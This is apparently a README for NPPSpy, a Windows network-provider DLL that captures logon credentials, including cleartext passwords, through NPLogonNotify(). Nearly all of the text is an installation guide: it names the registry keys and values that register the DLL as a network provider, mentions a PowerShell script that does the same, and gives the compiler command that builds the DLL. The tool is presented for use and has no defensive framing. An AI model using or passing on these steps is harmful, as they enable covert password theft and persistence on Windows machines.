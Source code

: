Simple (but fully working) code for `NPLogonNotify()`. 
The function obtains logon data, including cleartext password.

#### Installation:
1. Copy NPPSpy.dll to the System32 folder
1. Add `"NPPSpy"` at the end of the `"ProviderOrder"` in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`
1. Create `HKLM\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider` and set following values:
   - `"Class" = [REG_DWORD]2`
   - `"ProviderPath" = [REG_EXPAND_SZ]"%SystemRoot%\System32\NPPSPY.dll"`
   - `"Name" = [REG_SZ]"NPPSpy"`

OR

Use the ConfigureRegistrySettings.ps1 script (by @LadhaAleem)

Re-logon is required, reboot is not required.

#### Build it at home
1. From the Start Menu run Visual Studio 2019 -> x64 Native Tools Command Prompt for VS 2019
1. Browse to the folder with your NPPSpy.c
1. Run cl.exe /LD NPPSpy.c

#### Documentation:
The idea is somewhat documented at https://docs.microsoft.com/en-us/windows/win32/api/npapi/nf-npapi-nplogonnotify
